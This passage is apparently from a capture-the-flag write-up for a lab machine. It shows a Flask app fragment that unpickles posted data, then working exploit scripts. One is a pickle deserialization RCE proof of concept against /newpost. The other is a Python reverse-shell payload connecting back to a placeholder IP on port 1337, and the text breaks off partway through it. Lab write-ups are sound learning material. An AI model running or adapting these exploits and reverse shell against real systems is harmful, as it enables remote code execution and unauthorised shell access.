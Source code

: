 ```bash
	postObj = pickle.loads(picklestr) 
	return "POST RECEIVED: " + postObj['Subject'] 
	## TODO: VERY important! DISABLED THIS IN PRODUCTION 
	#app = DebuggedApplication(app, evalex=True, console_path='/debugconsole') 
	# TODO: Replace run-gunicorn.sh with real Linux service script 
	# app = DebuggedApplication(app, evalex=True, console_path='/debugconsole') 
	
if __name__ == "__main__": 
	app.run(host='0.0.0,0', Debug=True) 

URL for later reference: /uploads/extract-feed-py.xml File path: /home/roosa/deploy/src
```

Obviously, there is a route `/newpost` where the uploaded content gets deserialized using the Python `pickle` library. I rememebered that this can be used for RCE, if arbitrary objects get deserialized.

I wrote the following script to check whether RCE works:

```python
import base64
import cPickle
import os
import requests

cmd = "echo foobar > /tmp/mystuff"

class Exploit(object):
	def __reduce__(self):
	return(os.system,(cmd,))

def submit_exploit():
	data = base64.b64encode(cPickle.dumps(Exploit()))
	print("Submitting data: {}".format(data))
	response = requests.post("http://10.10.10.91:5000/newpost", data=data)
	print(response.status_code)
	print(response.text)


if __name__ == "__main__":
	submit_exploit()
```

Fetching `/tmp/mystuff` with the XXE exploit from above showed that the code is working as expected.

A reverse shell on the victim system can be obtained using the following script. I tried a few netcat reverse shells without success before using a plain Python solution. This worked prefectly (I should have had that idea earlier, because the webapplication itself is written in python...):

```python
import base64
import cPickle
import os
import requests
import subprocess

cmd = """python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("<ip>",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' &"""

class Exploit(object):
  def __reduce__(self):
	return (subprocess.Popen, (
	  (cmd),
	  0, # Bufsize
```